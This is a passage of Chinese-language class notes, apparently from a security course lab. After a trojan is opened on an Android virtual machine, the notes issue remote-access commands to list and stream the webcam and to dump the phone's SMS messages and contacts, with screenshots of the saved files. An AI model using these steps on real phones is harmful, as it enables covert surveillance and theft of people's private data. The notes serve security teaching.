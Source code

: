   ```
* 启动客户端服务

  ```
  run
  ```

  ![image-20230801104435812](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230801104435812.png)

* 安卓虚拟机打开木马文件

  连接成功

  ![image-20230802142114036](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802142114036.png)

* 检查摄像头

  ```
  webcam_list
  ```

* 开启摄像头

  ```
  webcam_stream
  ```

* 获取手机短信记录

  ```
  dump_sms
  ```

* 获取通讯录

  ```
  dump_contacts
  ```

  ![image-20230802142344010](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802142344010.png)

  保存成功

* 回到home文件夹查看文件

  通讯录保存到此文件中

  <img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802142516318.png" alt="image-20230802142516318"  />

* 查看文件

  ![image-20230802142608343](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802142608343.png)

  <img src="./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230802142856663.png" alt="image-20230802142856663" style="zoom:67%;" />





# 练习
  ```